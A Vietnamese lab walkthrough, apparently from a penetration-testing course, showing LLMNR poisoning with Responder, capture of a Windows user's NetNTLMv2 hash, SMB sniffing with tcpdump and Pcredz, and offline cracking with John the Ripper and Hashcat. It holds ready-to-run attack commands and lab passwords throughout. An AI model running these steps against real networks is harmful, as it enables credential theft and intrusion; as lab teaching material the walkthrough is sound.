Nghe lén (Sniff) quá trình xác thực SMB trên mạng và trích xuất mã băm từ file PCAP để bẻ khóa.

Bước 1: Khởi động Responder (Giăng bẫy)

Là một hacker, công việc đầu tiên của bạn là giăng lưới và chờ đợi con mồi mắc sai lầm. Chúng ta sẽ khởi động Responder để nó rình rập trên giao diện mạng eth0.

Thực hành:

Mở Terminal trên máy Linux và chạy lệnh sau với quyền root:

```bash
sudo /opt/responder/Responder.py -I eth0
```





Phân tích đơn giản:

Lệnh này kích hoạt các module "đầu độc" (Poisoners) như LLMNR, NBT-NS và MDNS. Đồng thời, nó bật sẵn các máy chủ giả mạo như HTTP, SMB chờ nạn nhân kết nối tới.

Từ lúc này, Responder sẽ nằm im lắng nghe các sự kiện mạng (Listening for events...).

Bước 2 & 3: Đóng vai Nạn nhân và Sập bẫy

Bây giờ, hãy hóa thân thành một nhân viên văn phòng vừa uống cà phê vừa làm việc. Người này vô tình gõ sai tên máy chủ chia sẻ file trong hệ thống. Lỗi đánh máy nhỏ này chính là "tử huyệt"!

Thực hành:

Chuyển sang máy ảo Windows 10. Đăng xuất (Sign out) khỏi tài khoản hiện tại.

Đăng nhập lại bằng tài khoản clark với mật khẩu là Qwerty12.



Mở File Explorer (biểu tượng thư mục màu vàng).

Tại thanh địa chỉ (Address bar), hãy gõ đường dẫn đến một máy chủ không tồn tại: \\WINDOWS01 và nhấn Enter.



Chờ vài giây, Windows sẽ hiện lên bảng yêu cầu nhập thông tin đăng nhập (Windows Security / Enter network credentials). Bạn không cần nhập gì cả, cứ nhấn Cancel hoặc đóng nó lại.

Phân tích đơn giản: Khi bạn gõ \\WINDOWS01, máy tính Windows không tìm thấy máy chủ này qua DNS, nên nó liền dùng LLMNR để hỏi cả mạng. Máy ảo Linux của chúng ta (đang chạy Responder) lập tức đáp lại: "Tôi là WINDOWS01 đây, gửi thông tin xác thực cho tôi để vào". Máy nạn nhân ngây thơ gửi ngay mã băm NTLMv2 của tài khoản clark cho chúng ta!.

Bước 4: Thu hoạch chiến lợi phẩm (Mã băm NTLMv2)

Chiếc bẫy đã sập! Trở lại hang ổ Linux của chúng ta để xem cá đã cắn câu chưa.

Thực hành:

Quay lại Terminal đang chạy Responder trên máy Linux. Bạn sẽ thấy các dòng thông báo màu màu sắc hiển thị Responder đã bắt được Hash (mã băm) của người dùng clark.

Bấm CTRL+C để dừng Responder.



Phân tích đơn giản: Responder lưu các mã băm thu được vào thư mục /opt/responder/logs/ dưới dạng file văn bản có tên bắt đầu bằng SMB-NTLMv2-SSP. Lưu ý quan trọng: Có sự khác biệt lớn giữa NTLM hash (dùng để tấn công Pass-the-Hash) và NetNTLMv2 hash (chính là loại ta vừa lấy được từ Responder). Loại NetNTLMv2 này là một đoạn phản hồi thử thách (challenge-response) nên không thể dùng để Pass-the-Hash, nhưng ta hoàn toàn có thể bẻ khóa (crack) nó offline.

Bước 5: Bẻ khóa mã băm với John The Ripper

Mã băm NetNTLMv2 này giống như một chiếc hộp khóa chặt. Để mở nó, ta sẽ dùng chiếc búa tạ mang tên John The Ripper (JtR). JtR sẽ thử hàng loạt mật khẩu phổ biến để xem mật khẩu nào tạo ra mã băm trùng khớp.

Thực hành:

Do mật khẩu Qwerty12 nằm sẵn trong từ điển mặc định của JtR, việc bẻ khóa sẽ diễn ra chỉ trong chớp mắt. Bạn có thể xem kết quả bẻ khóa (hoặc chạy bẻ khóa) bằng lệnh:

```bash
john --show /opt/responder/logs/SMB-NTLMv2-SSP-*.txt
```

(Lưu ý: Dấu * giúp tự động chọn đúng file log được sinh ra theo IP của máy Windows).



(Vì mật khẩu cũ là Qwerty12 của user clark bị bắt thay đổi nên mình tạo một custom_pass.txt đơn giản có chứa mật khẩu mình vừa thay để làm tăng tốc độ tìm kiếm, tương tự với mật khẩu mặc định có sẵn trong từ điển của jtr)

Phân tích đơn giản: Lệnh --show của John sẽ hiển thị mật khẩu đã được bẻ khóa thành công. Bạn sẽ thấy ngay mật khẩu gốc của tài khoản clark là Qwerty12 phơi bày rõ ràng trên màn hình!.

Bước 7 & 8: Nghe lén (Sniffing) trực tiếp giao tiếp SMB

Responder là cách để "giả mạo" máy chủ. Nhưng nếu nạn nhân đang đăng nhập vào một máy chủ có thật thì sao? Giả sử bạn đang kiểm soát luồng mạng (Man-in-the-Middle), bạn có thể dùng tcpdump để ghi lại toàn bộ gói tin giao tiếp, sau đó bóc tách mã băm ra!.

Thực hành:

Khởi động công cụ bắt gói tin tcpdump trên Linux để ghi lại luồng dữ liệu cổng 445 (SMB) vào file /tmp/winauth.pcap:

```bash
sudo tcpdump -i eth0 -w /tmp/winauth.pcap -v tcp port 445
```

(Hãy thay eth0 bằng tên card mạng của bạn nếu cần)



Mở một Tab Terminal mới trên Linux, đóng giả làm nạn nhân dùng smbclient để tạo một phiên đăng nhập SMB vào máy Windows:

smbclient //10.130.10.25/c$ -U clark Nam1111@@



Giao dịch mạng đã diễn ra! Quay lại Tab đang chạy tcpdump và bấm CTRL+C để dừng bắt gói tin.

Giờ ta dùng công cụ Pcredz để "mổ xẻ" file pcap và trích xuất mã băm:

```bash
sudo Pcredz -vf /tmp/winauth.pcap
```



Phân tích đơn giản: Lệnh Pcredz sẽ đọc file .pcap và tự động phân tích để lôi ra các thông tin nhạy cảm (như NTLM, Kerberos, FTP...). Bạn sẽ thấy toàn bộ chuỗi mã băm NetNTLMv2 của clark được in ra màn hình và lưu gọn gàng vào file /opt/pcredz/logs/NTLMv2.txt.

Bước 9: Dùng John hoặc Hashcat cho file nghe lén

Giờ thì ta lại có trong tay một mã băm mới (dù thực chất vẫn là của anh chàng clark tội nghiệp). Bạn có thể dùng JtR hoặc Hashcat – công cụ bẻ khóa siêu tốc bằng Card đồ họa (GPU) để xử lý nó.

Thực hành:

Nếu dùng John The Ripper:

```bash
john /opt/pcredz/logs/NTLMv2.txt
```



Nếu dùng Hashcat (Chỉ định đúng loại Hash là

```bash
NetNTLMv2 với cờ -m 5600):
```

```bash
hashcat -w 3 -a 0 -m 5600 /opt/pcredz/logs/NTLMv2.txt /opt/passwords/rockyou.txt
```



Phân tích đơn giản: Hashcat cực kỳ mạnh mẽ. Ở đây:

-m 5600: Cho Hashcat biết đây là loại mã băm NetNTLMv2.

-a 0: Chạy chế độ "Straight" (thử trực tiếp từng từ trong từ điển).

/opt/passwords/rockyou.txt: Là từ điển khổng lồ thường được hacker sử dụng.
**Tổng kết: Thật xuất sắc! Bằng kỹ thuật LLMNR Poisoning (đầu độc) và Sniffing (nghe lén), bạn đã chứng minh được việc bắt lấy các luồng xác thực NTLMv2 trên mạng nội bộ là hoàn toàn khả thi. Từ những mã băm này, việc chuyển thành mật khẩu rõ ràng (cleartext) chỉ còn phụ thuộc vào sức mạnh phần cứng bẻ khóa của bạn. Cùng chuẩn bị cho những kỹ thuật tấn công leo thang đặc quyền sâu hơn trong các phần tiếp theo nhé!**
```